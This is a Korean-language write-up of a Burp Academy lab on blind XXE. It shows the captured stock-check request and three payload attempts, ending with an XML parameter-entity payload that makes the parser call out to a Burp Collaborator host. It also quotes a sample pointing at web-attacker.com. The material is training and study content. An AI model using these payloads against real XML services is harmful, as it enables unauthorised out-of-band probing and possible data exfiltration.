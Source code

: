 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Blind XXE with out-of-band interaction via XML parameter entities"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 문제인데 XML의 파라메터 엔터티(Parameter Entity)를 통해 out-of-band 통신을 발생시키는 예제로 보인다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities
- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석
- 이전 문제와 마찬가지로 "Check stock" 기능으로 XXE가 가능하다. 
- HTTP 응답으로 에러 발생등의 결과는 알 수 없는 것 같다. 
- 그리고 일반적인 external entities 가 포함된 요청은 블록하고 있다고 한다. 
- 파라메터 엔터티를 통해 문제 서버의 XML 파서가 외부도메인에 대해 DNS쿼리를 질의하도록 만들면 된다. 
- DNS 요청이 발생했다는 것을 알기 위해서 Burp Collaborator 서버를 사용한다. 
- PortSwigger사의 [Burp Collaborator 설명](https://portswigger.net/burp/documentation/collaborator){:target="_blank"}에서 알 수 있듯이, 디폴트 Burp Collaborator 서버의 도메인 `*.burpcollaborator.net` 또는  `*.oastify.com` 를 사용한다. 

```
This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

# 풀이 

## XXE 가능한 곳 발견
이전 문제들과 마찬가지로 "Check stock" 버튼 클릭시 발생하는 POST 요청의 바디 부분이 XML로 되어 있는 것을 발견했다. 

```http
POST /product/stock HTTP/1.1
Host: 0aa30080038a706fc050bdf600870025.web-security-academy.net
Cookie: session=K72hbA7QeOP5dlNcdWpw31bGKKqWACeB
Content-Length: 107
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0aa30080038a706fc050bdf600870025.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa30080038a706fc050bdf600870025.web-security-academy.net/product?productId=2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ko;q=0.8
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>2</productId>
    <storeId>1</storeId>
</stockCheck>
```

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

568
```

## 1차 시도 
다음과 같이 `xxetest.burpcollaborator.net` 에 대한 요청을 보내는 페이로드를 사용해 봤다. 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

호오... 엔터티는 보안 이유상 사용하지 못하도록 되어 있다고 한다.   

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```

문제 설명에 따르면 External 엔터티는 사용하지 못하지만 **Parameter 엔터티라고 하는 것은 사용가능**한 것 같다. Parameter 엔터티를 어떻게 사용하는지 알아보자.  

Burp Academy의 [Blind XXE 설명 페이지](https://portswigger.net/web-security/xxe/blind) 에 따르면 `%` 를 사용해서 Parameter 엔터티의 선언 및 사용을 할 수 있다고 한다.  예를 들면 다음과 같은 식이다. 
- 변수명 앞에 `%`를 붙인다. 
- 참조할 때도 `&`가 아니라 `%`로 참조한다. 

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

## 2차 시도 
다음과 같이 Parameter 엔터티를 선언하고 참조하도록 페이로드를 바꿔보았다. 

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://xxetest.burpcollaborator.net"> ] >
<stockCheck>
	<productId>%xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

잘못된 product ID라고 한다. Parameter 엔터티를 사용해서 XXE가 가능한 것 같다. 조금 정답에 근접한 것 같다. productID를 `%xxe;` 로 참조하는 부분을 바꿔보자. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 20

"Invalid product ID"
```

## 3차 시도 
다시 한번 샘플 페이로드를 살펴 보자.   
`%xxe;` 참조가 `<!DOCTYPE>` 을 정의하는 엘레먼트에 들어가 있는 것을 알 수 있다. 

```xml 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

페이로드를 다음과 같이 변경했다. XML에서 데이터를 출력하는 위치를 productId에서 <!DOCTYPE>을 정의하는 엘레먼트 내부로 변경했다.

```xml 
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://xxetest.burpcollaborator.net"> %xxe;] >
<stockCheck>
	<productId>2</productId>
	<storeId>1</storeId>
</stockCheck>
```

XML 파싱 에러가 발생했다는 응답이 돌아온다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

![Blind XXE Repater](/images/burp-academy-xxe-4-repeater.png)

여기서 웹 페이지를 보면 성공했다는 메세지가 보인다! 

![Blind XXE 성공](/images/burp-academy-xxe-4-success.png)


